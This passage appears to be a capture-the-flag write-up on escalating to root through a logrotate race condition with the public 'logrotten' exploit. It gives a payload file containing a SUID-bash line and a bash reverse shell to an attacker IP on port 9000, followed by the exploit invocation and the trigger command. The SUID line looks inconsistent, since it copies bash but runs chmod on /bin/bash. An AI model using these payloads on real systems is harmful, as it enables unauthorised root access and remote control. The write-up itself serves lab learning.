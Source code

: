 and we can find the access log in the backup folder

![](/assets/img/book/19.png)


basically logrotate is the process that renames a current log file (e.g auth.log becomes auth.log.1) and set up a new log files.

pre-conditions  for privelege escalation in target:

* logrotate has to be executed as root
* the logpath need to be in control of the attacker
* any option that creates file is set in the logrotate configuration

and now we can do privilege escalation, you can grab the exploit [here](https://github.com/whotwagner/logrotten). 

prepare for our payload in ssh session

create a file and given name payload with contain:

```bash
(for suid)
cp /bin/bash ~/backups; chmod u+s /bin/bash

(for reverseshell)
bash -i >& /dev/tcp/10.10.14.5/9000 0>&1
```

compiling the exploit on our host and send back into reader using wget or curl command.

execute exploit with following prompt:

```bash
./exploit -p ./payload /home/reader/backups/access.log
```

open another session via ssh, and execute this command below to trigger our exploit

```
echo "1" >> access.log
```

![](/assets/img/book/20.png)
